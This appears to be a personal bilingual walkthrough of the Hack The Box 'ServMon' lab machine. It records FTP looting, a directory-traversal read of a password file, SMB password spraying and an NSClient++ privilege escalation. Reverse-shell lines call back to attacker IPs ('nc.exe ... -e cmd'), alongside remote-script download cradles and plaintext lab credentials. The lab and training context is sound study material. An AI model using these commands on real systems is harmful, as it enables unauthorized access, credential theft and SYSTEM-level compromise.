


## ServMon
#### 遇到的问题
#### 1.//执行了这条命令之后，打开网页的登录窗口就简单多了

```
[★]$ ports=$(nmap -p- --min-rate=1000 -T4 10.129.227.77 | grep ^[0-9] | cut -d '/' -f 1 | tr '\n' ',' | sed s/,$//)
[★]$ nmap -p$ports -sC -sV 10.129.227.77
Starting Nmap 7.94SVN ( https://nmap.org ) at 2026-02-08 01:01 CST
Nmap scan report for 10.129.227.77
Host is up (0.066s latency).

PORT      STATE SERVICE       VERSION
21/tcp    open  ftp           Microsoft ftpd
| ftp-syst: 
|_  SYST: Windows_NT
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_02-28-22  06:35PM       <DIR>          Users
22/tcp    open  ssh           OpenSSH for_Windows_8.0 (protocol 2.0)
| ssh-hostkey: 
|   3072 c7:1a:f6:81:ca:17:78:d0:27:db:cd:46:2a:09:2b:54 (RSA)
|   256 3e:63:ef:3b:6e:3e:4a:90:f3:4c:02:e9:40:67:2e:42 (ECDSA)
|_  256 5a:48:c8:cd:39:78:21:29:ef:fb:ae:82:1d:03:ad:af (ED25519)
80/tcp    open  http
| fingerprint-strings: 
|   GetRequest, HTTPOptions, RTSPRequest: 
|     HTTP/1.1 200 OK
|     Content-type: text/html
|     Content-Length: 340
|     Connection: close
|     AuthInfo: 
|     <!DOCTYPE html PUBLIC "-//W3C//DTD XHTML 1.0 Transitional//EN" "http://www.w3.org/TR/xhtml1/DTD/xhtml1-transitional.dtd">
|     <html xmlns="http://www.w3.org/1999/xhtml">
|     <head>
|     <title></title>
|     <script type="text/javascript">
|     window.location.href = "Pages/login.htm";
|     </script>
|     </head>
|     <body>
|     </body>
|     </html>
|   NULL: 
|     HTTP/1.1 408 Request Timeout
|     Content-type: text/html
|     Content-Length: 0
|     Connection: close
|_    AuthInfo:
|_http-title: Site doesn't have a title (text/html).
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds?
5666/tcp  open  tcpwrapped
6063/tcp  open  tcpwrapped
6699/tcp  open  tcpwrapped
8443/tcp  open  ssl/https-alt
|_ssl-date: TLS randomness does not represent time
| ssl-cert: Subject: commonName=localhost
| Not valid before: 2020-01-14T13:24:20
|_Not valid after:  2021-01-13T13:24:20
| http-title: NSClient++
|_Requested resource was /index.html
| fingerprint-strings: 
|   FourOhFourRequest, HTTPOptions, RTSPRequest, SIPOptions: 
|     HTTP/1.1 404
|     Content-Length: 18
|     Document not found
|   GetRequest: 
|     HTTP/1.1 302
|     Content-Length: 0
|_    Location: /index.html
49664/tcp open  msrpc         Microsoft Windows RPC
49665/tcp open  msrpc         Microsoft Windows RPC
49666/tcp open  msrpc         Microsoft Windows RPC
49667/tcp open  msrpc         Microsoft Windows RPC
49668/tcp open  msrpc         Microsoft Windows RPC
49669/tcp open  msrpc         Microsoft Windows RPC
49670/tcp open  msrpc         Microsoft Windows RPC
2 services unrecognized despite returning data.
```
```
[★]$ ftp 10.129.227.77
Connected to 10.129.227.77.
220 Microsoft FTP Service
Name (10.129.227.77:root): anonymous
331 Anonymous access allowed, send identity (e-mail name) as password.
Password: 
230 User logged in.
Remote system type is Windows_NT.

ftp> dir
229 Entering Extended Passive Mode (|||49680|)
125 Data connection already open; Transfer starting.
02-28-22  06:35PM       <DIR>          Users
226 Transfer complete.
ftp> cd Users
250 CWD command successful.
ftp> ls
229 Entering Extended Passive Mode (|||49681|)
150 Opening ASCII mode data connection.
02-28-22  06:36PM       <DIR>          Nadine
02-28-22  06:37PM       <DIR>          Nathan
226 Transfer complete.

ftp> ls Nathan
229 Entering Extended Passive Mode (|||49683|)
125 Data connection already open; Transfer starting.
02-28-22  06:36PM                  182 Notes to do.txt
226 Transfer complete.
ftp> get "Nathan\\Notes to do.txt"
local: Nathan\\Notes to do.txt remote: Nathan\\Notes to do.txt
229 Entering Extended Passive Mode (|||49684|)
125 Data connection already open; Transfer starting.
100% |***********************************|   182        2.67 KiB/s    00:00 ETA
226 Transfer complete.
WARNING! 4 bare linefeeds received in ASCII mode.
File may not have transferred correctly.
182 bytes received in 00:00 (2.66 KiB/s)

ftp> cd Nadine
250 CWD command successful.
ftp> dir
229 Entering Extended Passive Mode (|||49685|)
125 Data connection already open; Transfer starting.
02-28-22  06:36PM                  168 Confidential.txt
226 Transfer complete.
ftp> get "Nadine\\Confidential.exe
local: Nadine\\Confidential.exe remote: Nadine\\Confidential.exe
229 Entering Extended Passive Mode (|||49686|)
550 The system cannot find the path specified.   //550 是错误

ftp> exit
221 Goodbye.
[★]$ ls
'Nathan\\Notes to do.txt'

[★]$ cd desktop
bash: cd: desktop: No such file or directory
[★]$ ls Desktop
htb_vpn_logs.log  my_credentials.txt  my_data  README.license

//Notes to do.txt包含关于已安装的任务的已完成和未完成任务的信息监控应用程序
[★]$ cat 'Nathan\\Notes to do.txt'
1) Change the password for NVMS - Complete
2) Lock down the NSClient Access - Complete
3) Upload the passwords
4) Remove public access to NVMS
5) Place the secret files in SharePoint

[★]$ ls Desktop
htb_vpn_logs.log  my_credentials.txt  my_data  README.license
[★]$ cat Desktop/my_credentials.txt
Username: syareya55
Password: cqroAqyi
```
#### 对ftp的正确示范
```
[★]$ ftp 10.129.227.77
Connected to 10.129.227.77.
220 Microsoft FTP Service
Name (10.129.227.77:root): anonymous
331 Anonymous access allowed, send identity (e-mail name) as password.
Password: 
230 User logged in.
Remote system type is Windows_NT.
ftp> ls
229 Entering Extended Passive Mode (|||49685|)
150 Opening ASCII mode data connection.
02-28-22  06:35PM       <DIR>          Users
226 Transfer complete.
ftp> cd Users
250 CWD command successful.
ftp> ls
229 Entering Extended Passive Mode (|||49686|)
125 Data connection already open; Transfer starting.
02-28-22  06:36PM       <DIR>          Nadine
02-28-22  06:37PM       <DIR>          Nathan
226 Transfer complete.

ftp> ls Nadine
229 Entering Extended Passive Mode (|||49687|)
125 Data connection already open; Transfer starting.
02-28-22  06:36PM                  168 Confidential.txt
226 Transfer complete.
ftp> get "Nadine\\Confidential.txt"
local: Nadine\\Confidential.txt remote: Nadine\\Confidential.txt
229 Entering Extended Passive Mode (|||49688|)
150 Opening ASCII mode data connection.
100% |***********************************|   168       18.74 KiB/s    00:00 ETA
226 Transfer complete.
WARNING! 6 bare linefeeds received in ASCII mode.
File may not have transferred correctly.
168 bytes received in 00:00 (18.31 KiB/s)

ftp> ls Nathan
229 Entering Extended Passive Mode (|||49689|)
150 Opening ASCII mode data connection.
02-28-22  06:36PM                  182 Notes to do.txt
226 Transfer complete.
ftp> get "Nathan\\Notes to do.txt"
local: Nathan\\Notes to do.txt remote: Nathan\\Notes to do.txt
229 Entering Extended Passive Mode (|||49690|)
150 Opening ASCII mode data connection.
100% |***********************************|   182       20.29 KiB/s    00:00 ETA
226 Transfer complete.
WARNING! 4 bare linefeeds received in ASCII mode.
File may not have transferred correctly.
182 bytes received in 00:00 (20.04 KiB/s)
ftp> exit
221 Goodbye.

[★]$ ls
 47774.txt          Documents  'Nadine\\Confidential.txt'   Templates
 cacert.der         Downloads  'Nathan\\Notes to do.txt'    Videos
 Confidential.txt   Music       Pictures
 Desktop            my_data     Public

[★]$ cat 'Nadine\\Confidential.txt'
Nathan,

I left your Passwords.txt file on your Desktop.  Please remove this once you have edited it yourself and place it back into the secure folder.
//我把你的密码.txt文件留在你桌面上了。请删除此编辑后，你自己，并把它放回安全文件夹。
Regards

Nadine

[★]$ cat 'Nathan\\Notes to do.txt'
1) Change the password for NVMS - Complete
2) Lock down the NSClient Access - Complete
3) Upload the passwords
4) Remove public access to NVMS
5) Place the secret files in SharePoint
```
#### 在浏览器中检查80端口，可以看到NVMS-1000网络监控的登录页面软件。默认凭证admin / 123456或其他常见凭证不给我们访问。
```
[★]$ gobuster dir -u http://10.129.227.77 -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt -t 40 -o gobuster-80-root-medium
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.129.227.77
[+] Method:                  GET
[+] Threads:                 40
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================

Error: the server returns a status code that matches the provided options for non existing urls. http://10.129.227.77/41b172ec-d70c-40c2-a83c-d7619ddf5e13 => 200 (Length: 118). To continue please exclude the status code or the length
```
![images/2026020801.png)
```
[★]$ curl http://10.129.227.77/41b172ec-d70c-40c2-a83c-d7619ddf5e13
<?xml version="1.0" encoding="UTF-8"?>
<response>	<status>fail</status>
	<errorCode>536870934</errorCode>
</response>
```
#### 我尝试了wfuzz，在那里我可以根据响应长度进行过滤。它可以处理几千个请求，但每次都失败了：
```
[★]$ wfuzz -c -u http://10.129.227.77/FUZZ -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt --hh 118
 /usr/lib/python3/dist-packages/wfuzz/__init__.py:34: UserWarning:Pycurl is not compiled against Openssl. Wfuzz might not work correctly when fuzzing SSL sites. Check Wfuzz's documentation for more information.
********************************************************
* Wfuzz 3.1.0 - The Web Fuzzer                         *
********************************************************

Target: http://10.129.227.77/FUZZ
Total requests: 207643

=====================================================================
ID           Response   Lines    Word       Chars       Payload        
=====================================================================

000000001:   200        12 L     22 W       338 Ch      "# directory-li
                                                        st-lowercase-2.
                                                        3-medium.txt"  
000000007:   200        12 L     22 W       338 Ch      "# license, vis
                                                        it http://creat
                                                        ivecommons.org/
                                                        licenses/by-sa/
                                                        3.0/"          
000000003:   200        12 L     22 W       338 Ch      "# Copyright 20
                                                        07 James Fisher
                                                        "              
000000014:   200        12 L     22 W       338 Ch      "http://10.129.
                                                        227.77/"       
000000013:   200        12 L     22 W       338 Ch      "#"            
```
### Vulnerabilities  缺陷
#### searchsplit显示了此应用程序中的目录遍历漏洞：
```
[★]$ searchsploit "nvms 1000"
---------------------------------------------- ---------------------------------
 Exploit Title                                |  Path
---------------------------------------------- ---------------------------------
NVMS 1000 - Directory Traversal               | hardware/webapps/47774.txt
TVT NVMS 1000 - Directory Traversal           | hardware/webapps/48311.py
---------------------------------------------- ---------------------------------
Shellcodes: No Results

[★]$ searchsploit -m hardware/webapps/47774.txt
[★]$ cat 47774.txt
# Title: NVMS-1000 - Directory Traversal
# Date: 2019-12-12
# Author: Numan Türle
# Vendor Homepage: http://en.tvt.net.cn/
# Version : N/A
# Software Link : http://en.tvt.net.cn/products/188.html

POC
---------

GET /../../../../../../../../../../../../windows/win.ini HTTP/1.1
Host: 12.0.0.1
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3
Accept-Encoding: gzip, deflate
Accept-Language: tr-TR,tr;q=0.9,en-US;q=0.8,en;q=0.7
Connection: close

Response
---------

; for 16-bit app support
[fonts]
[extensions]
[mci extensions]
[files]
[Mail]
MAPI=1
```
### Website-TCP 8443
#### 8443号上有一个TLS服务器。通常使用证书，我将获得主机名并可能查找vhosts，但此证书仅用于localhost。
#### 该站点是NSClient++的一个实例，一个用于监控的代理：
#### 这里似乎坏得很厉害。在chrome（而不是Firefox）中访问确实提供了登录（某些时候）。
#### 让这个网站工作是相当令人沮丧的。就像我上面说的，我在Chromium上比在Firefox上取得了更大的成功，但即使那样，它也不稳定。
### Vulnerabilities 缺陷 NSClient++ 0.5.2.35:
```
[★]$ searchsploit nsclient
---------------------------------------------- ---------------------------------
 Exploit Title                                |  Path
---------------------------------------------- ---------------------------------
NSClient++ 0.5.2.35 - Authenticated Remote Co | json/webapps/48360.txt
NSClient++ 0.5.2.35 - Privilege Escalation    | windows/local/46802.txt
---------------------------------------------- ---------------------------------
Shellcodes: No Results
```
#### 这是一个本地私有，因为在盒子上有一个shell，我可以从配置文件中获得admin明文密码，然后登录并创建一个工作来获得shell。我会记住的。
```
[★]$ searchsploit -m windows/local/46802.txt
  Exploit: NSClient++ 0.5.2.35 - Privilege Escalation
      URL: https://www.exploit-db.com/exploits/46802
     Path: /usr/share/exploitdb/exploits/windows/local/46802.txt
    Codes: N/A
 Verified: False
File Type: ASCII text, with very long lines (466)
Copied to: /home/syareya55/46802.txt

[★]$ cat 46802.txt
Exploit Author: bzyo
Twitter: @bzyo_
Exploit Title: NSClient++ 0.5.2.35 - Privilege Escalation
Date: 05-05-19
Vulnerable Software: NSClient++ 0.5.2.35
Vendor Homepage: http://nsclient.org/
Version: 0.5.2.35
Software Link: http://nsclient.org/download/
Tested on: Windows 10 x64

Details:
When NSClient++ is installed with Web Server enabled, local low privilege users have the ability to read the web administator's password in cleartext from the configuration file.  From here a user is able to login to the web server and make changes to the configuration file that is normally restricted.

The user is able to enable the modules to check external scripts and schedule those scripts to run.  There doesn't seem to be restrictions on where the scripts are called from, so the user can create the script anywhere.  Since the NSClient++ Service runs as Local System, these scheduled scripts run as that user and the low privilege user can gain privilege escalation.  A reboot, as far as I can tell, is required to reload and read the changes to the web config.

Prerequisites:
To successfully exploit this vulnerability, an attacker must already have local access to a system running NSClient++ with Web Server enabled using a low privileged user account with the ability to reboot the system.

Exploit:
1. Grab web administrator password
- open c:\program files\nsclient++\nsclient.ini
or
- run the following that is instructed when you select forget password
	C:\Program Files\NSClient++>nscp web -- password --display
	Current password: SoSecret

2. Login and enable following modules including enable at startup and save configuration
- CheckExternalScripts
- Scheduler

3. Download nc.exe and evil.bat to c:\temp from attacking machine
	@echo off
	c:\temp\nc.exe 192.168.0.163 443 -e cmd.exe

4. Setup listener on attacking machine
	nc -nlvvp 443

5. Add script foobar to call evil.bat and save settings
- Settings > External Scripts > Scripts
- Add New
	- foobar
		command = c:\temp\evil.bat

6. Add schedulede to call script every 1 minute and save settings
- Settings > Scheduler > Schedules
- Add new
	- foobar
		interval = 1m
		command = foobar

7. Restart the computer and wait for the reverse shell on attacking machine
	nc -nlvvp 443
	listening on [any] 443 ...
	connect to [192.168.0.163] from (UNKNOWN) [192.168.0.117] 49671
	Microsoft Windows [Version 10.0.17134.753]
	(c) 2018 Microsoft Corporation. All rights reserved.

	C:\Program Files\NSClient++>whoami
	whoami
	nt authority\system

Risk:
The vulnerability allows local attackers to escalate privileges and execute arbitrary code as Local System
```
### Shell as nadine
#### 得到密码
#### 我首先尝试使用目录遍历漏洞读取NSClient++配置文件，但它不起作用。

#### 我从FTP笔记中知道，在C:\users\nathan\desktop\password.txt有一个密码文件。我将使用目录遍历漏洞来尝试读取该文件，它可以工作：

```
[★]$ burpsuite

浏览器导航到http://10.129.227.77
设置浏览器为本地地址端口是8080，同burpsuite的8080端口一样
浏览器http://10.129.227.77开始添加为：
http://10.129.227.77/../../../../../../../../../../../../users/nathan/desktop/passwords.txt回车
在burpsuite,Ctrl+R,Shitf+Ctrl+R,同样添加../../../../../../../../../../../../然后Send:
```

```
HTTP/1.1 200 OK
Content-type: text/plain
Content-Length: 156
Connection: close
AuthInfo: 

1nsp3ctTh3Way2Mars!
Th3r34r3To0M4nyTrait0r5!
B3WithM30r4ga1n5tMe
L1k3B1gBut7s@W0rk
0nly7h3y0unGWi11F0l10w
IfH3s4b0Utg0t0H1sH0me
Gr4etN3w5w17hMySk1Pa5$
```
### Check Passwords
#### 因为我只有一个没有用户名的密码列表，所以我将创建一个我现在知道的列表：
```
[★]$ cat users
administrator
nathan
nadine

[★]$ cat passwords
1nsp3ctTh3Way2Mars!
Th3r34r3To0M4nyTrait0r5!
B3WithM30r4ga1n5tMe
L1k3B1gBut7s@W0rk
0nly7h3y0unGWi11F0l10w
IfH3s4b0Utg0t0H1sH0me
Gr4etN3w5w17hMySk1Pa5$
```
#### 我现在可以使用crackmapexec来查看这些密码是否适用于smb的任何用户：
```
[★]$ crackmapexec smb 10.129.227.77 -u users -p passwords
SMB         10.129.227.77   445    SERVMON          [*] Windows 10 / Server 2019 Build 17763 x64 (name:SERVMON) (domain:ServMon) (signing:False) (SMBv1:False)
SMB         10.129.227.77   445    SERVMON          [-] ServMon\administrator:1nsp3ctTh3Way2Mars! STATUS_LOGON_FAILURE
SMB         10.129.227.77   445    SERVMON          [-] ServMon\nathan:1nsp3ctTh3Way2Mars! STATUS_LOGON_FAILURE
SMB         10.129.227.77   445    SERVMON          [-] ServMon\nadine:1nsp3ctTh3Way2Mars! STATUS_LOGON_FAILURE
SMB         10.129.227.77   445    SERVMON          [-] ServMon\administrator:Th3r34r3To0M4nyTrait0r5! STATUS_LOGON_FAILURE
SMB         10.129.227.77   445    SERVMON          [-] ServMon\nathan:Th3r34r3To0M4nyTrait0r5! STATUS_LOGON_FAILURE
SMB         10.129.227.77   445    SERVMON          [-] ServMon\nadine:Th3r34r3To0M4nyTrait0r5! STATUS_LOGON_FAILURE
SMB         10.129.227.77   445    SERVMON          [-] ServMon\administrator:B3WithM30r4ga1n5tMe STATUS_LOGON_FAILURE
SMB         10.129.227.77   445    SERVMON          [-] ServMon\nathan:B3WithM30r4ga1n5tMe STATUS_LOGON_FAILURE
SMB         10.129.227.77   445    SERVMON          [-] ServMon\nadine:B3WithM30r4ga1n5tMe STATUS_LOGON_FAILURE
SMB         10.129.227.77   445    SERVMON          [-] ServMon\administrator:L1k3B1gBut7s@W0rk STATUS_LOGON_FAILURE
SMB         10.129.227.77   445    SERVMON          [-] ServMon\nathan:L1k3B1gBut7s@W0rk STATUS_LOGON_FAILURE
SMB         10.129.227.77   445    SERVMON          [+] ServMon\nadine:L1k3B1gBut7s@W0rk
```
### SSH
#### Metasploit 和 Windows OpenSSH 的“要 shell 方式”不兼容
####  由于SSH正在监听这个Windows盒子，我可以使用它来获取shell：
```
[★]$ sshpass -p 'L1k3B1gBut7s@W0rk' ssh nadine@10.129.227.77  //没有反应
```
```
[★]$ ssh nadine@10.129.227.77
The authenticity of host '10.129.227.77 (10.129.227.77)' can't be established.
ED25519 key fingerprint is SHA256:WctzSeuXs6dqa7LqHkfVZ38Pppc/KRlSmEvNtPlwSoQ.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.129.227.77' (ED25519) to the list of known hosts.
nadine@10.129.227.77's password: 

Microsoft Windows [Version 10.0.17763.864]
(c) 2018 Microsoft Corporation. All rights reserved.

nadine@SERVMON C:\Users\Nadine>whoami
servmon\nadine

nadine@SERVMON C:\Users\Nadine>type Desktop\user.txt
```
### Priv: nadine –> SYSTEM
```
nadine@SERVMON C:\Program Files\NSClient++>dir 
 Volume in drive C has no label. 
 Volume Serial Number is 20C1-47A1

 Directory of C:\Program Files\NSClient++

02/28/2022  06:55 PM    <DIR>          .
02/28/2022  06:55 PM    <DIR>          ..
<SNIP>
11/05/2017  09:42 PM            55,808 NSCP.Core.dll
01/28/2018  10:32 PM         4,765,208 nscp.exe
11/05/2017  09:42 PM           483,328 NSCP.Protobuf.dll
11/19/2017  04:18 PM           534,016 nscp_json_pb.dll
11/19/2017  03:55 PM         2,090,496 nscp_lua_pb.dll
01/23/2018  08:57 PM           507,904 nscp_mongoose.dll
11/19/2017  03:49 PM         2,658,304 nscp_protobuf.dll
11/05/2017  10:04 PM             3,921 old-settings.map
01/28/2018  10:21 PM         1,973,760 plugin_api.dll
05/23/2015  07:44 AM         3,017,216 python27.dll
09/27/2015  02:42 PM        28,923,515 python27.zip
01/28/2018  10:34 PM           384,536 reporter.exe
02/28/2022  06:55 PM    <DIR>          scripts
02/28/2022  06:55 PM    <DIR>          security
12/08/2015  11:16 PM           348,160 ssleay32.dll
05/23/2015  07:44 AM           689,664 unicodedata.pyd
02/28/2022  06:55 PM    <DIR>          web
11/05/2017  09:20 PM         1,273,856 where_filter.dll
05/23/2015  07:44 AM            47,616 _socket.pyd
              33 File(s)     53,145,227 bytes
               7 Dir(s)   6,114,344,960 bytes free

nadine@SERVMON C:\Program Files\NSClient++>nscp web -- password --display 
Current password: ew2x6SsGTxjRwXOT

nadine@SERVMON C:\Program Files\NSClient++>
```
#### 关于https:IP:8443端口 确实是没有跳出登录的端口这个问题，加个域名就完事了
```
[★]$ echo '10.129.227.77' | sudo tee -a /etc/hosts
10.129.227.77
```
```
[★]$ searchsploit 'NSClient++'
---------------------------------------------- ---------------------------------
 Exploit Title                                |  Path
---------------------------------------------- ---------------------------------
NSClient++ 0.5.2.35 - Authenticated Remote Co | json/webapps/48360.txt
NSClient++ 0.5.2.35 - Privilege Escalation    | windows/local/46802.txt
---------------------------------------------- ---------------------------------
Shellcodes: No Results
[★]$ searchsploit -m windows/locak/46802.txt //前面下载过了
  Exploit: NSClient++ 0.5.2.35 - Privilege Escalation
      URL: https://www.exploit-db.com/exploits/46802
     Path: /usr/share/exploitdb/exploits/windows/local/46802.txt
    Codes: N/A
 Verified: False
File Type: ASCII text, with very long lines (466)
Copied to: /home/syareya55/46802.txt

[★]$ cat 46802.txt
Exploit:
1. Grab web administrator password
- open c:\program files\nsclient++\nsclient.ini
or
- run the following that is instructed when you select forget password
	C:\Program Files\NSClient++>nscp web -- password --display
	Current password: SoSecret

```
```
nadine@SERVMON C:\Program Files\NSClient++>type nsclient.ini 
# If you want to fill this file with all available options run the following 
command:
#   nscp settings --generate --add-defaults --load-all
# If you want to activate a module and bring in all its options use:
#   nscp settings --activate-module <MODULE NAME> --add-defaults
# For details run: nscp settings --help


; in flight - TODO
[/settings/default]

; Undocumented key
password = ew2x6SsGTxjRwXOT

; Undocumented key
allowed hosts = 127.0.0.1


; in flight - TODO
[/settings/NRPE/server]

; Undocumented key
ssl options = no-sslv2,no-sslv3
```
#### 除了密码之外，配置文件还告诉我们，只允许从127.0.0.1进行连接。这在Notes to do.txt中也有说明：“2)锁定NSClient访问-完成”。
```
[★]$ ssh nadine@10.129.227.77 -L 8443:127.0.0.1:8443
nadine@10.129.227.77's password: 

Microsoft Windows [Version 10.0.17763.864]
(c) 2018 Microsoft Corporation. All rights reserved. 

nadine@SERVMON C:\Users\Nadine>

```
#### 我们可以通过检查机器上的侦听端口来验证端口转发是否正在运行。
```
[★]$ ss -alnp | grep 8443
tcp   LISTEN 0      128                                        127.0.0.1:8443             0.0.0.0:*    users:(("ssh",pid=147723,fd=5))           
tcp   LISTEN 0      128                                            [::1]:8443                [::]:*    users:(("ssh",pid=147723,fd=4))
```
#### 我们创建一个执行nc.exe的新脚本（它可以使用scp上传，也可以直接从我们的smb-share上传），并向我们的机器返回一个反向shell。
#### 该漏洞说明系统需要重新启动才能触发该漏洞，然而在挖掘web控制台时，我发现可以直接从web控制台执行脚本。
#### 通过在web控制台中输入脚本的别名，我们可以手动执行负载。
```
[★]$ wget https://github.com/vinsworldcom/NetCat64/releases/download/1.11.6.4/nc64.exe
[★]$ echo '\programdata\nc.exe 10.10.14.134 443 -e cmd' > shell.bat
[★]$ python3 -m http.server 8011
Serving HTTP on 0.0.0.0 port 8011 (http://0.0.0.0:8011/) ...

```
```
nadine@SERVMON C:\ProgramData>powershell
Windows PowerShell
Copyright (C) Microsoft Corporation. All rights reserved.

PS C:\ProgramData>
PS C:\ProgramData> powershell wget http://10.10.14.134:8011/nc64.exe -outfile nc.exe
PS C:\ProgramData> powershell wget http://10.10.14.134:8011/shell.bat -outfile shell.bat
PS C:\ProgramData> ls


    Directory: C:\ProgramData


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
d-----        2/28/2022   6:32 PM                chocolatey
d---s-        2/28/2022   3:55 PM                Microsoft
d-----        2/28/2022   6:46 PM                NVMS-1000
d-----        2/28/2022   6:24 PM                Package Cache
d-----        2/25/2025   5:39 AM                regid.1991-06.com.microsoft
d-----        9/15/2018  12:19 AM                SoftwareDistribution
d-----        2/25/2025   5:46 AM                ssh
d-----        9/15/2018  12:19 AM                USOPrivate
d-----       11/11/2019   6:52 PM                USOShared
d-----        2/28/2022   5:44 PM                VMware
-a----         2/9/2026   7:31 AM          55296 nc.exe
-a----         2/9/2026   7:35 AM             48 shell.bat


PS C:\ProgramData>  
```
```
 [★]$ sudo nc -lvnp 443
listening on [any] 443 ...
```
#### https://localhost:8443
#### 首先，我们必须转到NSClient++的settings选项卡，以便创建一个新脚本。
#### Settings -> settings -> external scripts -> scripts -> 

```
 [★]$ sudo nc -lvnp 443
listening on [any] 443 ...
connect to [85.9.194.108] from (UNKNOWN) [109.105.210.100] 38719
��A�Gai���-������	��
/5�
�$�#�
�	�(�'���=<5/
���+�/�.


�┌//目标是用 HTTPS 连你，那你现在用的：nc -lvnp 443❌ 不行，因为 nc 不会解 TLS。
```

_________
```
PS C:\Users\Nadine> whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                    State
============================= ============================== =======
SeChangeNotifyPrivilege       Bypass traverse checking       Enabled
SeIncreaseWorkingSetPrivilege Increase a process working set Enabled

PS C:\Program Files\NSClient++> gc nsclient.ini

; in flight - TODO
[/settings/default]

; Undocumented key
password = ew2x6SsGTxjRwXOT

; Undocumented key
allowed hosts = 127.0.0.1
<SNIP>; in flight - TODO
[/settings/external scripts/scripts/11]
; COMMAND - Command to execute
command =  c:\\programdata\\shell.bat

; in flight - TODO[/settings/scheduler/schedules/11]

; SCHEDULE COMMAND - Command to execute
command = 11

; SCHEDULE INTERAVAL - Time in seconds between each check
interval = 1m
PS C:\Program Files\NSClient++>
```
#### 1.侦听nc 的问题，在pwnbox上无法使用rlwrap ,反弹又是明文
#### 2.在kali上可以使用rlwrap nc侦听https://127.0.0.1:8443 , 但有问题的是浏览器会打不开的情况，就算是google浏览器chromu啥的也不行
————————————————————
### 安装官方文档
https://rohnspowershellblog.wordpress.com/2013/03/19/viewing-service-acls/
#### NSClient在NT AUTHORITY\SYSTEM上下文中运行，成功开发后，命令执行将在此上下文中实现。这个漏洞有效的先决条件是服务重新启动。让我们检查一下NSCP服务的权限，看看我们是否有权限重新启动它。这篇由Rohn Edwards撰写的博客文章展示了我们如何获得服务权限PowerShell。我们可以使用Msxml2.xmlhttpcom对象下载摇篮下载和在内存中执行脚本。然而，我们被拒绝访问服务控制管理器，因此我们必须承担服务重新启动
```
nadine@SERVMON C:\Users\Nadine> cmd /c "C:\Program Files\NSClient++\nscp.exe" --
version
NSClient++, Version: 0.5.2.35 2018-01-28, Platform: x64
```
#### 我们找到了一个非默认应用程序，知道它安装的版本，并且可以以已认证用户的身份访问它。搜索影响此环境的漏洞，发现存在本地权限提升漏洞。成功利用此漏洞后，我们将以哪个用户身份执行代码？
#### NT AUTHORITY\SYSTEM
```
[★]$ git clone https://github.com/PowerShellMafia/PowerSploit.git
[★]$ cd PowerSploit/Privesc
[~/PowerSploit/Privesc] [★]$ ls
Get-System.ps1  PowerUp.ps1  Privesc.psd1  Privesc.psm1  README.md
[~/PowerSploit/Privesc] [★]$ python3 -m http.server 8011

先把 PowerUp.ps1 传到靶机内存：
IEX (New-Object Net.WebClient).DownloadString("http://10.10.14.134/PowerUp.ps1")
然后用：
方法 1（全面）：
Invoke-AllChecks
方法 2（只看服务相关）：
Get-ModifiableService
```
```
PS C:\ProgramData> powershell wget http://10.10.15.27:8011/PowerUp.ps1 -outfile PowerUp.ps1
PS C:\ProgramData> . .\PowerUp.ps1

PS C:\ProgramData> Invoke-AllChecks
Get-WmiObject : Access denied  
<SNIP>
 
